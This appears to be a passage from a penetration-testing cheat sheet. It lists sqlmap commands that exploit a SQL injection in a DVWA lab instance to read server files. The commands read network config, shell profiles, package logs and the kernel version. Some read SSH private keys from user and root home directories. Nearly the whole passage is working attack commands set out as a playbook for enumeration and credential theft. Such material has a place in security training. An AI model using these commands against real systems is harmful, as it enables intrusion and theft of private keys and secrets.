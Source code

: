 - DNS resolve and nameserver IPs

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/hosts"
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/bashrc"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.bashrc"
```

- Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/log/yum.log"
```

- Enumerate Linux kernel

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/proc/version"
```

##### 2.1.3.2 - Credentials

- Retrieve SSH keys

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.ssh/id_rsa"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.ssh/id_rsa"
```
